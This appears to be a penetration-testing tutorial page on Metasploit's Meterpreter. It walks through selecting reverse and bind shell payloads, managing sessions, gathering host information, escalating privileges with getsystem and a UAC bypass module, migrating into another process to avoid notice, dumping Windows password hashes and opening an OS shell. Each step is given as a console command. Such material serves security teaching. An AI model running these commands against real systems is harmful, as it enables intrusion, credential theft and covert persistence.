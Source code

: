 # Meterpreter

Meterpreter is a very powerful shell which runs on Anroid, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services

It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more

To list all possible Meterpreter payloads in MSFConsole:

```
search meterpreter
```

To choose a payload when attacking a Windows machine:

```
set payload windows/meterpreter/reverse_tcp
```

## Bind and Reverse

Meterpreter can both wait for a connection on the target machine or connect back to the attacker machine

Most used configurations are `bind_tcp` and `reverse_tcp`

* **`bind_tcp`** runs a server process on the target machine that waits for connections from the attacker machine
* **`reverse_tcp`** performs a TCP connection back to the attacker machine which could help evade firewall rules

```
set payload windows/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp
set payload windows/meterpreter/bind_tcp
set payload java/meterpreter/bind_tcp
```

## Sessions

A single instance of MSFConsole can host multiple Meterpreter sessions which means you can instance multiple shells on your targets and switch between them

To switch from a Meterpreter session to the console

```
background
```

To list currently opened sessions

```
sessions -l
```

To resume a background session

```
sessions -i <id>
```

## Information Gathering

You can perform information gathering on the exploited machine and the network it is attached to

You can retrieve:

* Information about the machine and the OS
* The network configuration in use
* The routing table of the compromised host
* Information about the user running the exploited process

### System Information

To retrieve information about the exploited machine: name, OS, architecture, system language and the Meterpreter version running:

```
sysinfo
```

![](<../../../../.gitbook/assets/image (28).png>)

### Network configuration

To print the network configuration:

```
ifconfig
```

![](<../../../../.gitbook/assets/image (20).png>)

### Routing information

```
route
```

![](<../../../../.gitbook/assets/image (15).png>)

### Current User

```
getuid
```

![](<../../../../.gitbook/assets/image (31).png>)

### Privilege Escalation

To just current privileges on Windows

```
run post/windows/gather/win_privs
```

![](<../../../../.gitbook/assets/image (33).png>)



You can use `getsystem` if the owner of the process does not have high privileges on the victim system

```
getsystem
```

![](<../../../../.gitbook/assets/image (11).png>)

### Bypassing UAC

{% hint style="info" %}
In modern Windows operating systems, the User Account Control policy prevent privilege escalation
{% endhint %}

![](<../../../../.gitbook/assets/image (25).png>)

You can bypass that restriction by u sing the `bypassuac` module

```
use exploit/windows/local/bypassuac
```

Then you have to set the session where you want to bypass UAC

```
set session <id>
```

Launch the exploit to get a new Meterpreter session with the UAC policy disabled and use `getsystem`

![](<../../../../.gitbook/assets/image (10).png>)

## Staying Stealthy

Checking pid with `getpid` shows the process you're currently running on

As you can imagine, this process name is not very stealthy and is also suspicious

A user checking their process list may notice something strange on their  machine

![](<../../../../.gitbook/assets/image (35).png>)

Therefore, in order to remain stealthy, we can use the `migrate` command to attach our session on a different process

We have to choose a process with the same privileges we currently have

```
ps -U SYSTEM
migrate <PID> //simply using migrate should work as well if you don't want to be specific
```



## Dumping the Password Database

```
use post/windows/gather/hashdump
set session <id>
exploit
```

![](<../../../../.gitbook/assets/image (16).png>)

## Exploring the Victim System

You can navigate the hard drive by using Unix-like shell commands

![](<../../../../.gitbook/assets/image (29).png>)

## Uploading and Downloading

![](<../../../../.gitbook/assets/image (19).png>)

## Running an OS Shell

You can run a standard OS shell

```
shell
```

![](<../../../../.gitbook/assets/image (26).png>)
